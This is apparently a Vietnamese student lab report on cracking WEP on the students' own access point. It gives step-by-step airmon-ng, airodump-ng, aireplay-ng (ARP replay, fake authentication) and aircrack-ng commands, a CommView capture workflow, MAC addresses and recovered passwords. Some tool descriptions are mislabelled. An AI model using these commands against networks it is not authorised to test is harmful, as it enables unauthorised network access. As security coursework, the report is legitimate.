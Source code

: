 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![sa](https://drive.google.com/uc?id=1aHCm0PJLO8PYOZOUbA4uDkjaSs8BpUC0)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, kismet để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
#airodump-ng wlan0mon \
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng [tên file capture đã bắt ở trên]\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
![sa](https://drive.google.com/uc?id=1uw_2dOEvhjbrrw39FNjiHV-W9HovPF3k)\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
![sa](https://drive.google.com/uc?id=1klvZX7Vj4l27zTVmuFzCbkknZJ36qB5p)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
#airodump-ng wlan0mon \
![sa](https://drive.google.com/uc?id=1e9V3GUB15kzb4qrJDE94RguO1HMLOdPK)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon\
![sa](https://drive.google.com/uc?id=1uxm-idFgvZ5wYasNEURXoABnXALi00dR)\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon\
![sa](https://drive.google.com/uc?id=1TE5gIzEYoWYW751QPy6p0rQitV_cZrUB)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1XDJcZXvDwVbhu2oRqu5ueBXxtbrMnjCQ)\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1vmrTDRr4ZRH7GWkaXZvIz61xFFGcrrRd)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng WEPcrack-01.cap\
![sa](https://drive.google.com/uc?id=1Ar-9jMWRtuKf14EEidEA6OFoufx6MUy_)\
![sa](https://drive.google.com/uc?id=1_LqFv5njNnMt8-5ANaBGzK4tWKCBUKLO)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![sa](https://drive.google.com/uc?id=10MKiqhKt1L1r4MzCQqTGlo3_HmK3f5wD)
![sa](https://drive.google.com/uc?id=1T7wnhI2tkVsIPaS9STrJIO5X4ysK682F)
![sa](https://drive.google.com/uc?id=1rrWt5BUhcwyHifX16vF7ZrZg2WqlhwOr)\
#### **II.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![sa](https://drive.google.com/uc?id=1Q116yxgW5UeJnRkT7PAjwhSzP3LsDaRo)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![sa](https://drive.google.com/uc?id=1FnH8ipAHtR8JKaZiZOozRRV2uQ-JnYTj)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![sa](https://drive.google.com/uc?id=1Ld98sXavr3T1i0Bs37KSsLlLvadcgeyh)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![sa](https://drive.google.com/uc?id=147xuSDynLMEtdPk6-v_E_qBasmfqQm7V)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![sa](https://drive.google.com/uc?id=1P7_Tc3PPnm4OXm_3MQsnxc9ak3KRZ2QS)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![sa](https://drive.google.com/uc?id=1eWIPG86Zxlmq-5vUNfPFJH3rgTkI7v40)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![sa](https://drive.google.com/uc?id=1HzWajrfP8gYguY2NiI9NfT4OVIL4qQ4P)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![sa](https://drive.google.com/uc?id=1rMJasjiPx1NEbXk3CdFRk6SdQnqnh45X)\

